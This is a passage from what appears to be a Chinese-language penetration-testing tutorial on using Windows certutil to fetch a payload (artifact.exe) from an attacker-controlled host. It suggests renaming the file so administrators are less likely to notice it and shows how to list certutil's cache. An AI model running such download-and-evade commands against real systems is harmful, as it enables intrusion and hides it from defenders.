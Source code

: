 这里也可以进行文件的重命名，如果你觉得这个文件名太过于明显容易被管理员发现就可以在下载的时候使用自己设置的名字生成 exe

```plain
certutil & certutil -urlcache -split -f http://172.20.10.4:8000/artifact.exe nice.exe
```

[![](assets/1701612219-65c3da8850cd42f55eb63073b3b57a12.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210611152047-8ae9c4ca-ca85-1.png)

使用`certutil`下载文件有个弊端就是会产生缓存文件，用如下命令查看：

```plain
certutil -urlcache *
```

[![](assets/1701612219-74f2d7e9f02f1a97df7993763d7cf9d8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210611152049-8c001e0e-ca85-1.png)
